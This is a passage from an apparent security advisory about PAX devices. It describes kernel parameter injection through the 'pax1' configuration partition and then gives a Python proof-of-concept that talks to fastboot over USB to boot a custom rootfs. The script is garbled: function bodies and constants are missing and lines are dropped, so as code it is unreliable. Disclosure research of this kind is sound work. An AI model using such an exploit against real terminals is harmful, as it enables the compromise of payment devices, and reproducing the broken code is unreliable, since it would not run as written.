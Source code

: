 `pax1`

is a special partition that doesn't contain filesystem but behaves more like a configuration map. Certain values from this map are used as kernel parameters (and allow spaces in their values), giving us kernel parameter injection.

Attached below is a PoC script, which chains kernel parameter injection with custom rootfs executed from a fastboot buffer (technique explained in depth [here](https://alephsecurity.com/2017/08/30/untethered-initroot/)).

from contextlib import contextmanager

from usb1 import USBContext, USBError, USBDeviceHandle

# these 4 values may need to be changed on per-product basis:

# we assume this will be used only after open_fastboot

g_handle: USBDeviceHandle = None # type: ignore

def send(bytez: bytes) -> None:

print(f"Sending {len(bytez)} {bytez[:0x18]}...")

g_handle.bulkWrite(ep_out, bytez)

def recv(count: int = 512) -> bytes:

data = g_handle.bulkRead(ep_in, count)

print("Got status", data)

def cmd(data: bytes) -> bytes:

def check_status(expected, received):

raise RuntimeError(f"Expected status {expected}, got, {received}")

def open_fastboot(*args, **kwargs):

with USBContext() as ctx:

device = ctx.getByVendorIDAndProductID(PAX_VID, PAX_PID)

print("Device not found")

print("Failed to open USB device")

with g_handle.claimInterface(0):

def upload_image(path: Path) -> None:

total_size = path.stat().st_size

send(f"download:{total_size:08x}".encode())

check_status(b"DATA", response[:4])

with open(path, "rb") as file:
